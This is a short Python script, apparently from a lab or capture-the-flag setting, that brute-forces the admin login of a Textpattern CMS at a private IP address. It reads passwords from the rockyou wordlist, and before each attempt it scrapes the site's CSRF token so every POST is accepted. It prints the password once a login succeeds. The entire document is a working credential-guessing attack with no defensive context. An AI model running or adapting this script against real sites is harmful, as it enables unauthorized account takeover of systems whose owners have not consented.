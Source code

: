 textpattern_bruteforce


import requests
from bs4 import BeautifulSoup

# URL base del login
url_login = "http://192.168.55.219/textpattern/textpattern/index.php"

# Usuario y lista de contraseñas
usuario = "admin"
password_list = "/usr/share/wordlists/rockyou.txt"

# Leer contraseñas
with open(password_list, "r", encoding="utf-8", errors="ignore") as f:
    passwords = f.read().splitlines()

# Sesión para manejar cookies
session = requests.Session()

for pwd in passwords:
    # 1. GET para obtener el token
    r = session.get(url_login)
    soup = BeautifulSoup(r.text, "html.parser")
    token_tag = soup.find("input", {"name": "_txp_token"})
    if not token_tag:
        print("No se encontró el token")
        break
    token = token_tag.get("value", "")

    # 2. POST con usuario, contraseña y token
    data = {
        "login_username": usuario,
        "login_password": pwd,
        "_txp_token": token
    }
    post = session.post(url_login, data=data)

    # 3. Verificar si el login fue exitoso
    if "Sorry, the form could not be submitted" not in post.text:
        print(f"[+] Contraseña válida encontrada: {pwd}")
        break
    else:
        print(f"[-] Intento fallido: {pwd}")
